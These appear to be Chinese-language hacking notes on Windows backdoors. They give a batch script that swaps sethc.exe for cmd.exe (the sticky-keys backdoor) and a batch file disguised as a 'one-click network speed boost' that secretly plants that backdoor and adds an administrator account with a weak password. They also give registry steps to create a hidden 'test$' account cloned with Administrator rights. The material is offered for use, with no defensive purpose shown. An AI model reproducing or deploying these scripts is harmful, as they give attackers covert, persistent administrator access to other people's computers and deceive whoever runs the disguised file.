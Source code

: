 ## shift后门
```Batch
CD C:\windows\system32
cacls sethc.exe /t /e /G Administrators:f
cacls cmd.exe /t /e /G Administrators:f
ren sethc.exe aaa.exe
ren cmd.exe sethc.exe
```
### 文件名：一键提升网速.bat
```Batch
echo 开始分析网络......
copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
copy c:\windows\system32\dllcache\sethc.exe c:\windows\system32\sethc.exe
echo 你的网速太慢了！
net user admin 123456 /add && net localgroup administrators admin /add
echo 你把我这个文件删了吧!
```

### 0x01 隐藏、克隆账号 window 隐藏系统用户制作：
### 1、CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限,PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。
### 2、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。
### 3、来到注册表编辑器的“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。
### 4、扎到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。
### 5、分别test$和“000003EC导出到桌面，删除test$用户   net user test$ /del
### 6、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。
### PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$r这个账户的，只有在注册表中才能看得到。
